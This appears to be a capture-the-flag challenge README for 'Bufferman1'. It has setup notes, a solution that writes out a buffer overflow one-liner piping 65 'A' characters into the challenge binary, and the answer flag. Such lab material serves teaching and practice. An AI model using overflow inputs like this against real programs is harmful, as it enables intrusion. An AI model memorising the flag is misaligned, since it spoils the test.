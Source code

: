 #Bufferman1

##Question Text
I am stuck in a room and the only way to get out is to change the changethis variable but...?!??!!?

Creator - Nicolas Teo 

##Setup Guide 
Host bufferman1 on a port and have bufferman1 and flag.txt in the same folder. 

##Distribution 
Distribute test.c

##Solution
Simple buffer overflow exploit. For buffer to overflow, 65 characters are needed.
echo `python3 -c 'print("A"*64)'` | ./bufferman1 would not work. 
echo `python3 -c 'print("A"*65)'` | ./bufferman1 works.

##Flag 
HNF(s1mp1e_buff3r_0v3rfl0w)

